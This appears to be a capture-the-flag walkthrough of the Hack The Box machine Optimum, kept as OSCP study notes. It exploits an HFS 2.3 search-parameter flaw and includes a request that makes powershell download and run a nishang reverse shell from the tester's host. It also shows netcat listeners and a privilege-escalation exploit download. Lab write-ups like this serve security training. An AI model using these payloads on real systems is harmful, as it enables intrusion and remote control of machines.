

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/window-boxes/optimum-easy
---

# ✅ Optimum (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** Remote Code Execution

**System Vulnerable:** 10.10.10.8

**Vulnerability Explanation:** The machine is vulnerable to remote code execution which exploit code was publicly.

**Privilege Escalation Vulnerability:** Out of dated version

**Vulnerability Fix:**&#x20;

**Severity:**

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -p- -sC -sV -T4 10.10.10.8 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-05 10:46 EDT
Nmap scan report for 10.10.10.8
Host is up (0.046s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration

We just found only 1 port open on the machine. We can see the version of the application is **HTTPFileServer 2.3.**

.png>)

By searching on google, this version is vulnerable to remote command execution attack due to a poor regex in the file **ParserLib.pas**. It allow remote attacks to execute arbitrary programs via %00 sequence in a search action.

Proof of Concept Code: [https://www.exploit-db.com/exploits/49584](https://www.exploit-db.com/exploits/49584)

```
http://{rhost}:{rport}/?search=%00{{.{encoded_payload}.}}
```

Let start manual test first, inserting %00 in the search field and send it through burp proxy.

.png>)

.png>)

Let start tcpdump to capture the traffic coming through tun0 (VPN connection).

```
tcpdump -i tun0
```

Let start execute command ping to our kali machine through burp and see the traffic. As we can the traffic coming from our machine ping to our kali machine.

.png>)

.png>)

## #1 Exploitation (Manual)

Let start replace ping command to execute remote code execute script. We can grab and edit reverse shell script from **nishang** which running in powershell script.

```
# Insert this line at the end of the script
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.31 -Port 4444
```

Let start netcat listener on port 4444 and start up HTTP Server with python3 to share file.

```
nc -lvp 4444
python3 -m http.server 80
```

Then, execute command on burp to download and execute the reverse shell script.

```
# Before Encode
GET /?search=%00{.exec|c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31/Invoke-PowerShellTcp.ps1').} HTTP/1.1

# After Encode
GET /?search=%00{.exec|c%3a\windows\SysNative\WindowsPowershell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.31/Invoke-PowerShellTcp.ps1').} HTTP/1.1
```

.png>)

## #2 Exploitation (Script)

Proof of concept code: [https://www.exploit-db.com/exploits/49584](https://www.exploit-db.com/exploits/49584)

Searching for public exploit, we found python script which could exploit this vulnerable.

.png>)

We just need to replace IP address and Port accordingly to our situation.

.png>)

Let start our netcat listener on port 4444 and execute the payload.

```
nc -lvp 4444
python3 49584.py
```

.png>)

## #1 Priv-Esc

We can enumerating with Windows-Exploit-Suggester.py to check for vulnerable.

```
# Update the database 
└─$ python windows-exploit-suggester.py -u
```

```
└─$ python windows-exploit-suggester.py -d 2021-11-06-mssb.xls -i systeminfo.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
[*] 
[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
[*]   https://github.com/foxglovesec/RottenPotato
[*]   https://github.com/Kevin-Robertson/Tater
[*]   https://bugs.chromium.org/p/project-zero/issues/detail?id=222 -- Windows: Local WebDAV NTLM Reflection Elevation of Privilege
[*]   https://foxglovesecurity.com/2016/01/16/hot-potato/ -- Hot Potato - Windows Privilege Escalation
[*] 
[E] MS16-074: Security Update for Microsoft Graphics Component (3164036) - Important
[*]   https://www.exploit-db.com/exploits/39990/ -- Windows - gdi32.dll Multiple DIB-Related EMF Record Handlers Heap-Based Out-of-Bounds Reads/Memory Disclosure (MS16-074), PoC
[*]   https://www.exploit-db.com/exploits/39991/ -- Windows Kernel - ATMFD.DLL NamedEscape 0x250C Pool Corruption (MS16-074), PoC
[*] 
[E] MS16-063: Cumulative Security Update for Internet Explorer (3163649) - Critical
[*]   https://www.exploit-db.com/exploits/39994/ -- Internet Explorer 11 - Garbage Collector Attribute Type Confusion (MS16-063), PoC
[*] 
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[*]   https://www.exploit-db.com/exploits/40107/ -- MS16-032 Secondary Logon Handle Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39574/ -- Microsoft Windows 8.1/10 - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032), PoC
[*]   https://www.exploit-db.com/exploits/39719/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (PowerShell), PoC
[*]   https://www.exploit-db.com/exploits/39809/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (C#)
[*] 
[M] MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important
[*]   https://www.exploit-db.com/exploits/40085/ -- MS16-016 mrxdav.sys WebDav Local Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39788/ -- Microsoft Windows 7 - WebDAV Privilege Escalation Exploit (MS16-016) (2), PoC
[*]   https://www.exploit-db.com/exploits/39432/ -- Microsoft Windows 7 SP1 x86 - WebDAV Privilege Escalation (MS16-016) (1), PoC
[*] 
[E] MS16-014: Security Update for Microsoft Windows to Address Remote Code Execution (3134228) - Important
[*]   Windows 7 SP1 x86 - Privilege Escalation (MS16-014), https://www.exploit-db.com/exploits/40039/, PoC
[*] 
[E] MS16-007: Security Update for Microsoft Windows to Address Remote Code Execution (3124901) - Important
[*]   https://www.exploit-db.com/exploits/39232/ -- Microsoft Windows devenum.dll!DeviceMoniker::Load() - Heap Corruption Buffer Underflow (MS16-007), PoC
[*]   https://www.exploit-db.com/exploits/39233/ -- Microsoft Office / COM Object DLL Planting with WMALFXGFXDSP.dll (MS-16-007), PoC
[*] 
[E] MS15-132: Security Update for Microsoft Windows to Address Remote Code Execution (3116162) - Important
[*]   https://www.exploit-db.com/exploits/38968/ -- Microsoft Office / COM Object DLL Planting with comsvcs.dll Delay Load of mqrt.dll (MS15-132), PoC
[*]   https://www.exploit-db.com/exploits/38918/ -- Microsoft Office / COM Object els.dll DLL Planting (MS15-134), PoC
[*] 
[E] MS15-112: Cumulative Security Update for Internet Explorer (3104517) - Critical
[*]   https://www.exploit-db.com/exploits/39698/ -- Internet Explorer 9/10/11 - CDOMStringDataList::InitFromString Out-of-Bounds Read (MS15-112)
[*] 
[E] MS15-111: Security Update for Windows Kernel to Address Elevation of Privilege (3096447) - Important
[*]   https://www.exploit-db.com/exploits/38474/ -- Windows 10 Sandboxed Mount Reparse Point Creation Mitigation Bypass (MS15-111), PoC
[*] 
[E] MS15-102: Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege (3089657) - Important
[*]   https://www.exploit-db.com/exploits/38202/ -- Windows CreateObjectTask SettingsSyncDiagnostics Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38200/ -- Windows Task Scheduler DeleteExpiredTaskAfter File Deletion Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38201/ -- Windows CreateObjectTask TileUserBroker Privilege Escalation, PoC
[*] 
[E] MS15-097: Vulnerabilities in Microsoft Graphics Component Could Allow Remote Code Execution (3089656) - Critical
[*]   https://www.exploit-db.com/exploits/38198/ -- Windows 10 Build 10130 - User Mode Font Driver Thread Permissions Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38199/ -- Windows NtUserGetClipboardAccessToken Token Leak, PoC
[*] 
[M] MS15-078: Vulnerability in Microsoft Font Driver Could Allow Remote Code Execution (3079904) - Critical
[*]   https://www.exploit-db.com/exploits/38222/ -- MS15-078 Microsoft Windows Font Driver Buffer Overflow
[*] 
[E] MS15-052: Vulnerability in Windows Kernel Could Allow Security Feature Bypass (3050514) - Important
[*]   https://www.exploit-db.com/exploits/37052/ -- Windows - CNG.SYS Kernel Security Feature Bypass PoC (MS15-052), PoC
[*] 
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[*]   https://github.com/hfiref0x/CVE-2015-1701, Win32k Elevation of Privilege Vulnerability, PoC
[*]   https://www.exploit-db.com/exploits/37367/ -- Windows ClientCopyImage Win32k Exploit, MSF
[*] 
[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows 8.1 - win32k Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows win32k Local Privilege Escalation (MS15-010), PoC
[*] 
[E] MS15-001: Vulnerability in Windows Application Compatibility Cache Could Allow Elevation of Privilege (3023266) - Important
[*]   http://www.exploit-db.com/exploits/35661/ -- Windows 8.1 (32/64 bit) - Privilege Escalation (ahcache.sys/NtApphelpCacheControl), PoC
[*] 
[E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
[*]   http://www.exploit-db.com/exploits/35474/ -- Windows Kerberos - Elevation of Privilege (MS14-068), PoC
[*] 
[M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
[*]   https://www.exploit-db.com/exploits/37800// -- Microsoft Windows HTA (HTML Application) - Remote Code Execution (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35308/ -- Internet Explorer OLE Pre-IE11 - Automation Array Remote Code Execution / Powershell VirtualAlloc (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35229/ -- Internet Explorer <= 11 - OLE Automation Array Remote Code Execution (#1), PoC
[*]   http://www.exploit-db.com/exploits/35230/ -- Internet Explorer < 11 - OLE Automation Array Remote Code Execution (MSF), MSF
[*]   http://www.exploit-db.com/exploits/35235/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution Through Python, MSF
[*]   http://www.exploit-db.com/exploits/35236/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-060: Vulnerability in Windows OLE Could Allow Remote Code Execution (3000869) - Important
[*]   http://www.exploit-db.com/exploits/35055/ -- Windows OLE - Remote Code Execution 'Sandworm' Exploit (MS14-060), PoC
[*]   http://www.exploit-db.com/exploits/35020/ -- MS14-060 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[*]   http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
[*] 
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[*] done

```

Proof of Concept Code: [https://www.exploit-db.com/exploits/41020/](https://www.exploit-db.com/exploits/41020/)

Going through the exploit-db, it provides with the link to download binary file to execute on window. We can download and transfer it to our victim machine.

```
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe 
```

